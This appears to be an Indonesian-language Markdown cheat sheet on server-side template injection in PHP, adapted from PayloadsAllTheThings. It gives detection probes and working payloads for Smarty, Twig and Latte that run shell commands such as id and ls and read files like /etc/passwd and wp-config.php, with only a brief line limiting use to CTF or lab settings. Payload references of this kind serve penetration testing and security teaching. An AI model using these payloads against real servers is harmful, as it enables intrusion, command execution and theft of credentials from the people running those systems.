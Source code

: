 # Server Side Template Injection - PHP

> **Server-Side Template Injection (SSTI)** adalah kerentanan di mana penyerang dapat menyisipkan input berbahaya ke dalam template di sisi server, sehingga template engine dapat mengeksekusi perintah arbitrer di server. Pada PHP, SSTI bisa terjadi jika input pengguna dimasukkan ke template engine seperti Smarty, Twig, Latte, dan lain-lain tanpa validasi atau sanitasi yang benar.

## Ringkasan

- [Library Template Populer](#library-template-populer)
- [Payload Dasar](#payload-dasar)
- [Payload Spesifik Engine](#payload-spesifik-engine)
- [Referensi](#referensi)

## Library Template Populer

| Nama Template | Format Payload | Bahasa Pemrograman |
| ------------- | -------------- | ------------------ |
| Smarty        | `{$...}`       | PHP                |
| Twig          | `{{...}}`      | PHP                |
| Latte         | `{...}`        | PHP                |
| Plates        | `<?= ... ?>`   | PHP                |
| Mustache      | `{{...}}`      | PHP                |

## Payload Dasar

Coba payload berikut pada input yang dicurigai:

```smarty
{$7*7}
{{7*7}}
<?= 7*7 ?>
```

Jika output menjadi `49`, kemungkinan aplikasi rentan SSTI.

## Payload Spesifik Engine

### Smarty

- **Injeksi Dasar:**
  ```smarty
  {$7*7}
  ```
- **Eksekusi Perintah (versi lama):**
  ```smarty
  {php}echo `id`;{/php} // Sudah deprecated di Smarty v3
  ```
- **Eksekusi Perintah (versi baru):**
  ```smarty
  {system('id')}
  {system('ls')}
  {system('cat index.php')}
  ```

### Twig

- **Injeksi Dasar:**
  ```twig
  {{7*7}}
  ```
- **Lihat variabel:**
  ```twig
  {{dump(app)}}
  {{dump(_context)}}
  ```
- **Baca file:**
  ```twig
  {{'/etc/passwd'|file_excerpt(1,30)}}
  {{include("wp-config.php")}}
  ```
- **Eksekusi Perintah:**
  ```twig
  {{['id']|filter('system')}}
  {{['cat /etc/passwd']|filter('system')}}
  {{['id']|map('passthru')}}
  ```

### Latte

- **Injeksi Dasar:**
  ```latte
  {var $X="POC"}{$X}
  ```
- **Eksekusi Perintah:**
  ```latte
  {php system('id')}
  ```

### Plates

- **Injeksi Dasar:**
  ```php
  <?= 7*7 ?>
  ```
- **Contoh penggunaan:**
  ```php
  <?php $this->layout('template', ['title' => 'User Profile']) ?>
  <h1>User Profile</h1>
  <p>Hello, <?=$this->e($name)?></p>
  ```

### Mustache

- **Injeksi Dasar:**
  ```mustache
  {{7*7}}
  ```

## Tips

- Selalu cek output aplikasi setelah mengirim payload.
- Gunakan variasi payload jika satu format tidak berhasil.
- Setelah engine teridentifikasi, cari dokumentasi exploitasi engine tersebut.
- Gunakan payload hanya di lingkungan legal (CTF/lab).

## Referensi

- [PayloadAllTheThings - SSTI](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection)

